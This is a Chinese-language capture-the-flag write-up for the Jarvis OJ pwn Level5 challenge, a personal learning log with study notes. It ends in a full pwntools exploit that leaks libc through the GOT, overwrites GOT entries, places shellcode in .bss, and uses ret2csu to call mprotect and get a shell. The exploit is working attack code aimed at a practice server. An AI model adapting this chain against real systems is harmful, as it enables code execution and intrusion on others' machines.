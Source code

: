 

# 7.17

# Javis OJ pwn Level5 WP(菜鸡塘坑记)

> 总体来说还是我太菜了，原本按照师傅们的进度都应该在学堆了，而我这个垃圾却狗在栈上面无法自拔，我得加快进度啊。

题目地址:[传送门](https://www.jarvisoj.com/challenges)

本题是一道真的基础的栈溢出，连```libc```都给了，所以说都没啥问题，这里面给的提示是:

>mmap和mprotect练习，假设system和execve函数被禁用，请尝试使用mmap和mprotect完成本题。

之后这是朱师傅这两天在搞的题，我就凑凑热闹，毕竟太菜得向朱师傅学习，之后开始试着做，文件是64位的，IDA看一波是这个样子的。

![](C:\Users\lenovo\Desktop\summer_hoilday2019\summer_hoilday2019\7.17\img\3.png)

![](C:\Users\lenovo\Desktop\summer_hoilday2019\summer_hoilday2019\7.17\img\1.png)

![](C:\Users\lenovo\Desktop\summer_hoilday2019\summer_hoilday2019\7.17\img\2.png)

之后根据我那微薄的知识告诉我，知识盲区我不会，之后根据朱师傅给的提示，与```mprotect```这个函数有关系，查过```.bss```段可读可写但是不可执行，百度查了一下```mprotect```这个函数是啥用的:

```c
NAME         
       mprotect, pkey_mprotect - set protection on a region of memory
SYNOPSIS         
       #include <sys/mman.h>

       int mprotect(void *addr, size_t len, int prot);
       int pkey_mprotect(void *addr, size_t len, int prot, int pkey);
……
```

大概知道了```mprotect```是设置内存页权限的一个函数，然后底下看了看几个参数我愣是不知道可执行的```int```是多少，还是问了朱师傅才知道，我好菜啊。

之后接着得考虑用啥```gadget```来执行栈溢出，pattern查了一波偏移量是*128+8*，之后分析到我们应该得做哪几件事情呢？

1. 通过```write```函数泄露```read_got```地址，然后计算出```libc```的基地址，然后通过```libc```计算出```mprotect```的地址
2. 向```got表```中写入```mprotect```的地址
3. 向*.bss*段写入```shellcode```
4. 向```got表```中写入```bss```的地址
5. 用```ret2csu```调用```mprotect```将*.bss*权限设置为可执行，然后返回到bss上执行shellcode

之后其实在大佬师傅们手里，这题目很简单，可是我菜啊，下面主要讲讲我的塘坑记录。

### plt和got的关系没有搞清楚

这是我今天上午还搞错的问题，这个函数调用的关系其实现在我还是有点糊涂，就是啥时候应该用plt啥时候该用got地址，这个我还是太菜了

### 能别图省事而找麻烦

有很大一部分时间我是用在想用ret2csu不是等效的嘛，为啥不可以，等我用另外的gadget解决完问题之后再想也不急啊，要是比赛的时候会浪费更多时间，原本想一直用csu撸完整个的，但是发现根本不需要，用其他短的gadget反而更好实现。

### got表覆写的位置好像有讲究

今早问曹师傅，曹师傅并不建议我写在为0的常量上面，他推荐我写在其他已经有的函数上面，之后上午还不算太理解，然后晚上多看了几篇wp才明白他的意思，我选择写在```__libc_start_main```上面，然后就好了。

### 然后不能理解为啥要用pause

之后好像是为了维持线程，这个真的是涨知识了。

最后上exp:

```python
#!/usr/bin/python
from pwn import *
context.log_level='debug'
context(os='linux',arch='amd64')
#sh=process('./1')
sh=remote("pwn2.jarvisoj.com",9884)
exe=ELF('./1')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc=ELF('./libc-2.19.so')
main=exe.symbols['main']
csu_front_addr = 0x400690
csu_end_addr=0x4006aa
read_plt=exe.symbols['read']
read_got=exe.got['read']
bss=exe.bss()
write_plt=exe.symbols['write']
write_got=exe.got['write']
pop_rdi=0x4006b3
pop_rsi=0x4006b1
shellcode=asm(shellcraft.amd64.sh())
def csu(rbx,rbp,r12,r13,r14,r15,last):
	payload = 'a'*136
	payload+=p64(csu_end_addr)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
	payload+=p64(csu_front_addr)
	payload+='a'*0x38
	payload+=p64(last)
	print 'payload+++++'+payload
	sh.send(payload)
	sleep(1)
	pause()

sh.recvuntil('Input:\n')
payload123='a'*136+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(read_got)+'deadbuff'+p64(write_plt)+p64(main)
sh.send(payload123)
sleep(0.2)
pause()
read_addr=u64(sh.recv(8))
libc.address=read_addr-libc.symbols['read']
mprotect=libc.symbols['mprotect']
libc_start_main_got=exe.got['__libc_start_main']
payload2='a'*136+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(libc_start_main_got)+"deadbuff"+p64(read_plt)+p64(main)
sh.send(payload2)
sleep(0.2)
sh.send(p64(mprotect))
sleep(0.2)
pause()
#mprotect=libc.symbols['mprotect']
payloadpp='a'*136+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss)+'deadbuff'+p64(read_plt)+p64(main)
sh.send(payloadpp)
sleep(0.2)
sh.send(shellcode)
sleep(0.2)
pause()
#libc_start_main_got=exe.got['__libc_start_main']
#payload2='a'*136+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(libc_start_main_got)+"deadbuff"+p64(read_plt)+p64(main)
#sh.send(payload2)
#sleep(0.2)
#sh.send(p64(mprotect))
sh.recvuntil('Input:\n')
gmon_start_got=exe.got['__gmon_start__']
payload3='a'*136+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(gmon_start_got)+"deadbuff"+p64(read_plt)+p64(main)
sh.send(payload3)
sleep(0.2)
sh.send(p64(bss))
sleep(0.2)
#csu2(0,1,mprotect_got,7,0x1000,0x600000,bss_got)
payloadkkp='a'*136+p64(csu_end_addr)+p64(0)+p64(1)+p64(libc_start_main_got)+p64(7)+p64(0x1000)+p64(0x600000)
payloadkkp+=p64(csu_front_addr)
payloadkkp+='deadbuff'+p64(0)+p64(1)+p64(gmon_start_got)+p64(0)+p64(0)+p64(0)
payloadkkp+=p64(csu_front_addr)
sleep(0.2)
pause()
sh.send(payloadkkp)
sh.interactive()
```

![](C:\Users\lenovo\Desktop\summer_hoilday2019\summer_hoilday2019\7.17\img\4.png)

总共用了一天多才搞定，我好菜啊！！！